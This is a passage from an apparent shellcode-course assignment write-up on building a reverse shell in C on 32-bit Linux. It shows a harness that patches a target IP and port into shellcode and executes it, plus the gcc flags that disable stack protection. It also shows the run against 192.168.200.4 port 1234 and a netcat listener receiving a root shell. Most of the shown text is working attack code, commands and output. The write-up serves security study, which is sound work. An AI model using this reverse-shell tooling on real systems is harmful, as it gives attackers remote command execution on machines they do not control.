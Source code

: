 ```c

// copy the IP in the right shellcode offset 21 bytes from the beginning of the shellcode
memcpy(shellcode[IP], ipaddress, 4);

// provide binary form of the port into the shellcode in order to be able to connect to that specific port

unsigned int port = htons(atoi(argv[2]));

// copy the new port in the right shellcode offset 27 bytes from the beginning of the shellcode
memcpy(shellcode[PORT], port, 2);

printf("Shellcode Length: %d\n", strlen(shellcode));

int (*ret)() = (int(*)())shellcode;

ret();

}
```

<p style="text-align:justify;">
the following command will be used to compile the program above
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
r<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># gcc -fno-stack-protector  -z execstack -m32 -o revshell revshell.c
</pre>

<p style="text-align:justify;">
Furthermore, as seen below when the <strong>revshell</strong> program runs, then if a target machine listens to specific port&nbsp; ( e.g <strong>1234</strong> using a listener ) , then a new connection starts on the target machine.
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># ./revshell 192.168.200.4 1234
Shellcode Length: 84
</pre>

As we see below the communication has been established with the target machine on port <strong>1234</strong> and we can run commands remotely

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
~ nc -nlv 1234 
whoami
root
netstat -antp | grep 1234
tcp 0 0 192.168.200.13:50914 192.168.200.4:1234 ESTABLISHED 812/s
</pre>
